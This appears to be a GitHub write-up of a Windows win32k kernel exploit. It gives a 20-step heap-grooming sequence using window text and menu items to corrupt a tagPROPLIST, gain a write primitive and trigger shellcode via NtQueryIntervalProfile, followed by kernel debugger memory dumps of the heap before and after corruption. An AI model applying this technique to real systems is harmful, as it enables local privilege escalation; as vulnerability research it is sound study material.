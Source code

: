 1. createWindow with WndText size 1, loop FILL_HOLE_COUNT times to fill the old hole.
2. create WND-0~WND-5.
3. create menu with 8 ITEMs.
4. create sub-menu with 8 ITEMs.
5. expand sub-menu to 9 ITEMs.
6. set WND-5 text 0x360 to fill the hole of sub-menu old ITEMs.
7. set WND-1 text 0x70, make corrupt heap header.
8. set WND-2 text 0x70.
9. set WND-0 text 0x6c0 for take a sit.
10. create the WND-primitive and a auto-created tagPROPLIST.
11. create the WND-corrupt and a auto-created tagPROPLIST.
12. set WND-3 text 0x18 for a fake heap header.
13. save the heap data for restore.
14. reset WND-0 text 0x700 to release a 0x6c0 hole.
15. expand menu to 9 ITEMs to triger the bug.
16. deatroy WND-2 to release corrupt block.
17. set WND-corrupt text 0x8e0 to realloce the corruptd block.
18. execute the write primitive by set WND-primitive text.
19. triger shellcode with NtQueryIntervalProfile.
20. restore the saved heap data.

### step07 step08

    1: kd> db fea2d7a8-8 l78*2
    fea2d7a0  0f 00 01 00 d9 00 00 08-00 00 00 00 1d 01 01 00  ................
    fea2d7b0  e8 00 00 08 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d800  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d810  00 00 00 00 00 00 00 00-0f 00 01 00 0f 00 00 08  ................
    fea2d820  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d850  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d860  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d870  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d880  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

### step15

    0: kd> db fea2d7a8-8 l78*2
    fea2d7a0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7b0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7c0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7d0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7e0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d7f0  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d800  00 00 00 00 00 00 00 00-00 00 00 00 0f 00 01 00  ................
    fea2d810  d9 00 00 08 00 00 00 00-1d 01 01 00 e8 00 00 08  ................
    fea2d820  f0 36 a3 fe 10 ca a2 fe-00 00 00 00 00 00 00 00  .6..............
    fea2d830  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d840  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d850  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d860  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d870  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d880  00 00 00 00 0f 00 01 00-0f 00 00 08 00 00 00 00  ................
